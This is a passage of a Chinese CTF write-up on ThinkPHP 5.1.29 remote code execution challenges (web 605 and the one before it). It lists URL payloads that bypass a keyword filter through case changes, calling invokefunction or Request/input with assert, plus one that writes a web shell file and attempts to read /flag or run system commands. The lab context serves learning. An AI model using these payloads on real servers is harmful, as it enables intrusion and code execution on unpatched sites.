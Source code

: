 用上一题的payload打，提示`invokefunction 这条路子不通，想想其他路子~`，使用上题提供的其他payload，也可以把`invokefunction`里替换为大写，通过url不区分大小写绕过

太好玩啦！你还有多少惊喜是我不知道的？？？

```php
?s=index/\think\app/INVokefuNcTion&function=call_user_func_array&vars[0]=assert&vars[1][]=phpinfo()
?s=index/\think\app/inVOkEFUNction&function=call_user_func_array&vars[0]=assert&vars[1][]=phpinfo()
?s=index/think\Request/input&filter=assert&data=phpinfo();
?s=index/think\Request/input&filter[]=assert&data=phpinfo();
```

我的失败尝试：

在`invokefucntion`方法下面接着看，还有`invokeMethod`,`invokeClass`

`invokeMethod`方法的定义如下，接收两个参数，第一个是类的方法，第二个是数组参数

```php
public static function invokeMethod($method, $vars = [])
{
    if (is_array($method)) {
        $class   = is_object($method[0]) ? $method[0] : self::invokeClass($method[0]);
        $reflect = new \ReflectionMethod($class, $method[1]);
    } else {
        // 静态方法
        $reflect = new \ReflectionMethod($method);
    }

    $args = self::bindParams($reflect, $vars);

    self::$debug && Log::record('[ RUN ] ' . $reflect->class . '->' . $reflect->name . '[ ' . $reflect->getFileName() . ' ]', 'info');

    return $reflect->invokeArgs(isset($class) ? $class : null, $args);
}
```

尝试了两个原生类都不行，是用法错了吗？提示方法不存在，道友们有兴趣试试

```php
?s=index/\think\app/invokeMethod&method=SplFileObject::__toString&vars[0]=php://filter/convert.base64-encode/resource=/flag
?s=index/\think\app/invokeMethod&method=Error::getmessage&vars[0]=system&vars[1][]=ls
```

## web 605

> 描述：未开启强制路由RCE-姿势2 版本thinkphp 5.1.29 举一反二

过滤了`invokefunction`、`input`，可以尝试url不区分大小写绕过。也可以试试试写文件，这里是可以的，为什么前面几题没用？试了，要么执行不了，要么没有写的权限

```php
?s=index/\think\app/INVokefuNcTion&function=call_user_func_array&vars[0]=assert&vars[1][]=phpinfo()
?s=index/\think\app/inVOkEFUNction&function=call_user_func_array&vars[0]=assert&vars[1][]=phpinfo()
?s=index/think\Request/iNput&filter=assert&data=phpinfo();
?s=index/think\Request/INPUt&filter[]=assert&data=phpinfo();
?s=index/think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
```
